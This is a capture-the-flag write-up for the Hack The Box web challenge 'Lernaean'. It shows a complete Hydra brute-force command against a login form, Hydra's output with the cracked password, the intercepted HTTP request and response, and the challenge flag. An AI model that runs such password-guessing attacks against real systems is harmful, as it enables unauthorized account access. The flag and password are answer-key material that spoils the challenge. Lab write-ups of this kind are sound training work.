



# Web Challenge: Lernaean (20 Points)

**Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!**



I checked the source code and found nothing.

```html
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

I also used dirbuster and dirsearch but still nothing. Then I analyzed the challenge and found out that the author wants us to bruteforce the password because of this hint `Please do not try to guess my password!`.

To bruteforce the password, we can use `Medusa`, `Hydra`, and `Ncrack`. Then I noticed that the name of the challenge is Lernaean so if we do a Google Search about it, we will get this:



So for this challenge we will use Hydra.

Let's build our Hydra command.
```
$ hydra -l aj -P rockyou.txt docker.hackthebox.eu http-post-form “/:password=^PASS^:Invalid password!” -s 54677
```

**-l** - indicates a username (use -L if you will use a list of username) <br>
**-P** - indicates a password list (-p if you will use a single password) <br>
**docker.hackthebox.eu** - is the target <br>
**htt-post-form** - indicates the type of form <br>
**/** - indicates the location of the page where the password field is located <br>
**:** - separator
**password** - indicates the name of the field <br>
**^PASS^** - tells Hydra to use the password list <br>
**Invalid password!** - is the login failure message that the form returned if the password is wrong <br>
**-s** - indicates the port <br>

After executing the command, we finally got the password.

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-04 17:13:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://docker.hackthebox.eu:54677//:password=^PASS^:Invalid password!
[33971][http-post-form] host: docker.hackthebox.eu   login: aj   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-04 17:13:41
```

After entering `leonardo`, the server returned this page:



So it looks like we need to do something because we're too slow to get the flag? Let's open Burp and interept the request.

HTTP Request
```
POST / HTTP/1.1
Host: docker.hackthebox.eu:54677
Content-Length: 17
Cache-Control: max-age=0
Origin: http://docker.hackthebox.eu:54677
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://docker.hackthebox.eu:54677/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

password=leonardo
```

HTTP Response
```
HTTP/1.1 200 OK
Date: Sun, 04 Nov 2018 08:10:14 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 618
Connection: close
Content-Type: text/html; charset=UTF-8

<h1 style='color: #fff;'>HTB{l1k3_4_b0s5_s0n}</h1><script type="text/javascript">
                   window.location = "noooooooope.html"
              </script>
<html>
<head>
    <title>Login - Lernaean</title>
</head>
<body style="background-color: #cd4e7b;">
    <center>
        <br><br><br>
        <h1><u>Administrator Login</u></h1>
        <h2>--- CONFIDENTIAL ---</h2>
        <h2>Please do not try to guess my password!</h2>
        <form method="POST">
            <input type="password" name="password"><br><br>
            <input type="submit" value="Submit">
        </form>
    </center>
</body>
</html>
```

And we got the flag. :)
